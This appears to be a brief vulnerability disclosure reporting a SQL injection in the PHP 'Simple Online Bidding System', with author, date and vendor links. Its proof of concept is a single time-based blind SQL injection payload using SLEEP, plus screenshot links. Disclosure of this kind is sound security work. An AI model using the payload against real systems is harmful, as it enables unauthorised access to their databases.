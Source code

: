 # Simple Online Bidding System

**Exploit Title: Simple Online Bidding System SQL** Injection

**Date**: 4/08/2023

**Exploit Author:** y3thu

**Vendor Homepage:** [https://www.sourcecodester.com/users/tips23](https://www.sourcecodester.com/users/tips23)

**Software Link:** [https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html](https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html)

**Attack Vector:** WEB, Network

**Testeted on:** Kali Linux

**POC**

- **payload:**   AND (SELECT 5294 FROM (SELECT(SLEEP(5)))bgxK)
    
    !![Untitled 1](https://github.com/yethu123/vulns-finding/assets/29069905/c3e4aeb2-12c9-4f88-a72a-80f972f98a63)

    
    !![Untitled](https://github.com/yethu123/vulns-finding/assets/29069905/f529e593-a403-4dda-a57e-c481609b74a2)

